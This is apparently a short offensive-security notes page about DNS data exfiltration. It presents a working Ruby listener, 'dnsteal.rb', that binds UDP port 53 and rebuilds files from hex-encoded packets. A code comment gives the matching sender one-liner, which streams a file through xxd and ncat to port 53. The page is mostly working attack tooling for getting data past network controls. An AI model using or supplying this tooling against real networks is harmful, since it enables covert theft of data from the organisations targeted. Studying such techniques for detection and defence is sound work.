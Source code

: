 # DNS 


## DNS Data Exfiltration 
DNS out-band connection is usually allowed in local networks, which is the major benefits of using DNS to transfer data to external server. 

**dnsteal.rb**
```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
# for hex in $(xxd -p ethernet-cable.jpg); do echo $hex | ncat -u localhost 53 ; done
# 
require 'socket'

if ARGV.size < 1
  puts "[+] sudp ruby #{__FILE__} <FILENAME>"
  exit
else
  file = ARGV[0]
end

# Open UDP Socket and bind it to port 53 on all interfaces
udpsoc = UDPSocket.new
udpsoc.bind('0.0.0.0', 53)

begin

  data     = ''
  data_old = ''
  
  loop do
    response = udpsoc.recvfrom(1000)
    response = response[0].force_encoding("ISO-8859-1").encode("utf-8")
    data = response.match(/[^<][a-f0-9]([a-f0-9]).*[a-f0-9]([a-f0-9])/i).to_s
    
    # Write received data to file
    File.open(file, 'a') do |d|
      d.write [data].pack("H*") unless data == data_old     # Don't write the same data twice(poor workaround)
      puts data unless data == data_old
    end
    
    data_old = data 
  end

rescue Exception => e
  puts e
end
```

Run it 
```
ruby dnsteal.rb image.jpg
```




<br><br><br>
---
- [dnsteal.py](https://github.com/m57/dnsteal)